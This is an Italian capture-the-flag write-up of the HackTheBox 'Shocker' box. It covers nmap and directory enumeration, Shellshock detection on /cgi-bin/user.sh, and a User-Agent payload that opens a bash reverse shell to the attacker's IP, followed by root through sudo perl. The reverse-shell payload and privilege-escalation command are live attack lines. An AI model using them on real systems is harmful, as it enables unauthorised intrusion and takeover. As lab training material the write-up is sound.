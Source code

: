 # Shocker

## Reconnaissance

Per prima cosa eseguo una scansione iniziale con nmap.

```text
sudo nmap -sC -sV -O -oA /usr/share/nmap/initial 10.10.10.17
```

* **-sC**: scipt nmap di default
* **-sV**: per rilevare la versione dei servizi
* **-O**: per rilevare il SO
* **-oA**: per stampare tutti i formati e salvarli nel file _nmap/initial_

Le porte aperte sono le seguenti:

* **Porta 2222:** OpenSSH 7.2p2
* **Porta 80** Apache httpd 2.4.18

```text
Nmap scan report for 10.10.10.56
Host is up (0.077s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4f8ade8f80477decf150d630a187e49 (RSA)
|   256 228fb197bf0f1708fc7e2c8fe9773a48 (ECDSA)
|_  256 e6ac27a3b5a9f1123c34a55d5beb3de9 (ED25519)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=9/18%OT=80%CT=1%CU=40237%PV=Y%DS=2%DC=I%G=Y%TM=65085D9
OS:E%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=109%TI=Z%CI=I%II=I%TS=8)OPS
OS:(O1=M53CST11NW6%O2=M53CST11NW6%O3=M53CNNT11NW6%O4=M53CST11NW6%O5=M53CST1
OS:1NW6%O6=M53CST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN
OS:(R=Y%DF=Y%T=40%W=7210%O=M53CNNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration

In questa fase cerco di capire se qualcuno di questi servizi è configurato in modo errato o se presenta vulnerabilità note.

### 1) Porta 2222 OpenSSH 7.2p2

La vulnerabilità trovata:
  * OpenSSH 2.3 < 7.7 - Username Enumeration

Questa vulnerabilità ci permette di fare username enumeration [CVE-2018-15473](https://github.com/Sait-Nuri/CVE-2018-15473).

Non mi interessa utilizzare questa vulnerabilità per il momento, quindi proseguo.

### 2) Porta 80 Apache 2.4.18

Non trovo nulla di interessante.

### 3) Directory enumeration

Utilizzo il comando dirb, dal quale ottengo il seguente risultato:

```text
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Mon Sep 18 15:36:07 2023
URL_BASE: http://10.10.10.56/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.10.56/ ----
+ http://10.10.10.56/cgi-bin/ (CODE:403|SIZE:294)                                            
+ http://10.10.10.56/index.html (CODE:200|SIZE:137)                                          
+ http://10.10.10.56/server-status (CODE:403|SIZE:299)                                       

-----------------
END_TIME: Mon Sep 18 15:42:00 2023
DOWNLOADED: 4612 - FOUND: 3
```

Provo con il comando gobuster utilizzando la wordlist _directory-list-2.3-medium.txt_, cercando file con estensione _sh_ e _cgi_.

```text
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.10.56/cgi-bin/ -x sh,cgi
```

Il risutlato è il seguente

```text
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.56/cgi-bin/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              cgi,sh
[+] Timeout:                 10s
===============================================================
2023/09/18 16:13:31 Starting gobuster in directory enumeration mode
===============================================================
/user.sh              (Status: 200) [Size: 119]
```

Scarico lo script user.sh:

<p align="center">
  <img src="/Immagini/Linux-Box/Shocker/shocker-1.png" />
</p>

Facendo una rapida ricerca, basandomi sul nome della macchina, mi imbatto nella vulnerabilità shellshock. Per questo motivo utilizzo uno script nmap per verificare che il sito sia vulnerabile ad essa:

```text
nmap 10.10.10.56 -p 80 --script=http-shellshock --script-args uri=/cgi-bin/user.sh
```

Il risultato è il seguente:


```text
Nmap scan report for 10.10.10.56
Host is up (0.080s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-shellshock:
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known
|       as Shellshock. It seems the server is executing commands injected
|       via malicious HTTP headers.
|             
|     Disclosure date: 2014-09-24
|     References:
|       http://www.openwall.com/lists/oss-security/2014/09/24/10
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
|_      http://seclists.org/oss-sec/2014/q3/685
```

**Quindi è vulnerabile!**

### 4) Vulnerabilità Shellshock

Per sfruttare la vulnerabilità utilizzo la guida presente in questo [sito](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/cgi).

Avvio burp e intercetto la richiesta _/cgi-bin/user.sh_:

<p align="center">
  <img src="/Immagini/Linux-Box/Shocker/shocker-2.png" />
</p>

Dopodichè modifico il campo _User Agent_ nel seguente modo:

```text
() { ignored;};/bin/bash -i >& /dev/tcp/10.10.14.13/4444/ 0>&1
```
Prima di inviare la richiesta, avvio un listener sulla porta 4444:

```text
nc -nlvp 4444
```

<p align="center">
  <img src="/Immagini/Linux-Box/Shocker/shocker-5.png" width="180" height="290"/>
</p>

**SBAM! Sono dentro.**

<p align="center">
  <img src="/Immagini/Linux-Box/Shocker/shocker-3.png" />
</p>

## Privilege Escalation

Per prima cosa controllo i permessi dell'utente:

<p align="center">
  <img src="/Immagini/Linux-Box/Shocker/shocker-4.png" />
</p>

Quindi posso lanciare un comando perl come root.

Facendo una ricerca su questo [sito](https://gtfobins.github.io/gtfobins/perl/) capisco che posso elevare i miei privilegi attraverso questo comando:

```text
sudo perl -e 'exec "/bin/sh";'
```

**Eseguendolo ottengo il contenuto di root.txt**
